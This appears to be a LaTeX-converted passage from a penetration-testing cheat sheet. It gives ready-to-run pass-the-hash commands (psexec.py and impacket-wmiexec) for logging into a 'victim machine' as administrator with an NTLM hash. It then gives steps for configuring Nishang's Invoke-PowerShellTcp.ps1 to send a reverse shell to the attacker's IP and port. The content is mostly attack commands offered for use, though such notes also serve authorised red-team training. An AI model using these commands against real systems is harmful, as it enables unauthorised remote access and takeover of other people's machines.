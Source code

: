 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
You can then connect to the victim machine by using psexec.py

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{psexec.py}\NormalTok{ domain.name/administrator@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18}
\end{Highlighting}
\end{Shaded}

You can also use the impacket-wmiexec to connect to the victim machine.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-wmiexec}\NormalTok{ domain.name/administrator@10.10.10.10 -hashes :8a4b77d52b1845bfe949ed1b9643bb18}
\end{Highlighting}
\end{Shaded}

\hypertarget{powershell-access-with-nishang}{%
\section*{Powershell access with Nishang}\label{powershell-access-with-nishang}}

Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration
testing and red teaming. Nishang is useful during all phases of penetration testing.

By nikhil\_mitt

\href{https://github.com/samratashok/nishang}{Nishang github}

\hypertarget{invoke-powershelltcp.ps1}{%
\subsection*{Invoke-PowerShelltcp.ps1}\label{invoke-powershelltcp.ps1}}

Script that send a reverse shell with powershell on TCP protocol.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Open the script

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ nishang/Shells/}
\ExtensionTok{vi}\NormalTok{ Invoke-PowerShelltcp.ps1}
\end{Highlighting}
\end{Shaded}
\item
  Copy one of the examples that are at the begining of the file and paste it at the end of it.
\item
  Of course change the ip address and the port by the attackers one
\end{enumerate}
\end{document}
